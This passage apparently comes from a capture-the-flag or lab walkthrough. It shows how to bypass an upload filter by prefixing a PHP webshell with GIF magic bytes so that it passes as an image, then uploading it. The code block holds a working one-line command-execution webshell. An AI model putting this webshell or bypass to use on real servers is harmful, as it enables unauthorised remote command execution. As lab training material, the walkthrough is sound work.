 IT is not possible to upload webshells using functions like system, passthru, shell_exec because the upload constraints are parsing the file content, so I created the webshell as shown below:

```console
root@kali:~# cat z.gif
GIF87a
<?php
echo `$_REQUEST[cmd]`;
?>
```

The file then was checked to be a GIF image.

```console
root@kali:~# file z.gif
z.gif: GIF image data, version 87a, 15370 x 28735
```

Click **Browse** to select the webshell, and click **Upload**.

![](/assets/images/imf/screenshot-14.png)

The webshell was uploaded successfully.

![](/assets/images/imf/screenshot-15.png)

When viewing the source code in the comment, it is noted the name with which the webshell was uploaded.
